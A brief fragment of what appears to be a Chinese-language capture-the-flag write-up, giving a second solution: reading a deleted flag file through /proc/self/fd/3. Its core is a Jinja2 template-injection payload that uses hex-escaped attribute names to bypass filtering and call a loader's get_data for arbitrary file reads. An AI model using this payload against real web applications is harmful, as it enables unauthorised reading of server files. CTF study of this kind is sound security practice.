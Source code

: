 解法二：

由于flag最初是存放在文件中，后由app.py读取后删除了该文件，所以可以利用这一点访问/proc/self/fd/，在其中的3即使此前打开的flag文件。

`{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/proc/self/fd/3")}}`

